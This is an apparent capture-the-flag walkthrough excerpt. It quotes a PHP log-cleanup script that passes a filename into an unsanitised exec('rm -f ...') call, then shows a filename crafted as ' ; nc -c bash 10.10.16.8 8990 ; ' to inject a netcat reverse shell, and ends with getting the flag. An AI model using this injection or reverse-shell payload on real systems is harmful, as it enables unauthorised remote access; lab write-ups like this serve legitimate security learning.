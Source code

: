 ```php
  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

So, the interesting line here is

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

I can control the $value here. I make a file with the following command.

```bash
touch ' ; nc -c bash 10.10.16.8 8990 ; '
```

And after some time, I got the shell

![Untitled](uploads/Untitled%207.png)

I grabbed the flag from the home directory

![Untitled](uploads/Untitled%208.png)